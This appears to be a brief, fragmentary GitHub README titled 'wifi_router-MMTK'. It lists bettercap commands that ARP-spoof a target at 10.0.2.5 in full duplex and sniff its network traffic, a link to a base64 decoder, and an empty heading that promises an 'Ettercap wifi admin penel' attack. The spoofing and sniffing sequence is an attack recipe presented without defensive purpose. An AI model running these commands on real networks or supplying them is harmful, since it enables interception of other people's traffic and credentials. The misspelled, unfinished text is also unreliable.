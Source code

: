 # wifi_router-MMTK


bace64 decuder:- https://www.google.com/amp/s/amp.base64decode.org/

### bettercap -iface wlan0
  
    
 
 net.probe on
 
 arp.spoof on
 
 set arp.spoof.fullduplex true 
 
 set arp.spoof.targets 10.0.2.5
 
 
 set net.sniff.local true
 
 net.sniff on



## Ettercap wifi admin penel 100%

 

